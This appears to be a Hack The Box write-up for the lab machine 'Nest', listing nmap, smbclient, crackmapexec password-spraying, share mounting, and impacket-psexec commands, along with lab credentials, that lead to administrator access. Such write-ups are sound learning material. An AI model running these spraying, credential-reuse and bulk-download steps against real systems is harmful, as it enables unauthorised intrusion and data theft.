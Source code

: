 # Nest Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -p- -oA fullnest 10.10.10.178``

445/tcp  open  microsoft-ds

4386/tcp open  unknown


``telnet 10.10.10.178 4386``

HQK Reporting Service V1.2

![image](https://user-images.githubusercontent.com/123066149/219978012-ef2de3c1-ee16-4f12-a81d-e5d1c908e88e.png)

# ${{\color{purple}Initial Foothold}}\ $

``smbclient -U 'guest%' -L //10.10.10.178``  **:white_check_mark:**

![nest](https://user-images.githubusercontent.com/123066149/219977952-10bf82e2-17dd-4847-9662-7c0574cb3f03.PNG)

``smbmap -u 'guest%' -p '' -H 10.10.10.178``

![nest2](https://user-images.githubusercontent.com/123066149/219977955-11587394-53bb-4003-96db-4444483d1f9e.PNG)

``tree -f``

![nest6](https://user-images.githubusercontent.com/123066149/219978096-f7d14d29-972e-4762-bcc1-762285d76e56.PNG)

### After a good enumeration I found a password in the share :

![nest7](https://user-images.githubusercontent.com/123066149/219978134-ceda178d-80e0-486f-93b5-12f9d74e7f05.PNG)

### The password was in vb format i used this site to decode it :

https://dotnetfiddle.net/LdhDaa

### See the difference in rights on the share:

``crackmapexec smb 10.10.10.178 -u 'seazeaz' -p 'azeazeazee'`` 

``crackmapexec smb 10.10.10.178 --shares -u 'TempUser' -p 'welcome2019'``

``crackmapexec smb 10.10.10.178 --shares -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx'``

![image](https://user-images.githubusercontent.com/123066149/219978197-a0d102f9-3279-4ff7-a4e8-f5e79fe3eae2.png)

### Replay the password for other users :

``crackmapexec smb 10.10.10.178 -u users.lst -p welcome2019 --continue-on-success``

![nest3](https://user-images.githubusercontent.com/123066149/219978170-7567d458-4be6-4c03-9a94-38b500e6ef36.PNG)

### In a file named "Debug Mode Password.txté" I had to do a special command to find the password :

``allinfo "Debug Mode Password.txt``

``get "Debug Mode Password.txt":Password``

``cat Debug Mode Password.txt``

![nest4](https://user-images.githubusercontent.com/123066149/219978395-27c5720e-def1-46ee-8006-cfeb6154147d.PNG)

# ${{\color{purple}Exploitation}}\ $ 

### I have created directories and I mounted the share in the files to make a better enumeration :

``mkdir C.Smith``

``mkdir L.Frost``

``mkdir R.Thompson``

``mkdir TempUser``

``mount -t cifs -o 'username=L.Frost,password=welcom2019' //10.10.10.178/Users /mnt/L.Frost``

``mount -t cifs //10.10.10.178/Data /mnt/tmpuser -o "username=TempUser,password=welcome2019"``

``find .``  

### OR to exploit the structure

``tree -f``

# ${{\color{purple}Privilege Escalation}}\ $

``telnet 10.10.10.178 4386``

HQK Reporting Service V1.2

![nest9](https://user-images.githubusercontent.com/123066149/219978750-0df318a5-091d-4117-b511-1929e1a5637e.PNG)

![nest10](https://user-images.githubusercontent.com/123066149/219978754-492ceb49-2465-4b0b-a73d-5b066e660b46.PNG)

![nest11](https://user-images.githubusercontent.com/123066149/219978757-1e3f2a5e-e0a6-4f1f-9932-31d16f3defb1.PNG)

### The password was in vb format i used this site to decode it :

https://dotnetfiddle.net/LdhDaa

``/usr/bin/impacket-psexec administrator@10.10.10.178``

![nest5](https://user-images.githubusercontent.com/123066149/219978802-4d6431df-f61c-4545-b87e-256f69e4c39b.PNG)


# ${{\color{purple}Points of Improvement}}\ $

* Use crackmap for shares
* Mount the shares on my computer for a perfect enumeration 
* Don't forget that it is possible to mount a share with the password of a user :
``mount -t cifs //10.10.10.178/Data /mnt/tmpuser -o "username=TempUser,password=welcome2019"``
* Test the open ports with telent nc and netcat because they don't send the same data 
* Think about the ``allinfo`` method of smb commands for interesting files 
* Use the tree -f command for enumeration
* It's possible to retrieve all files from a share with the following smb commands

``allinfo "Debug Mode Password.txt`` 
``echo -n yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4= |base64 -d`` ### Base64 decode
``tree -f``

``smb: \> mask ""``
``smb: \> recurse``
``smb: \> prompt``
``smb: \> mget *``

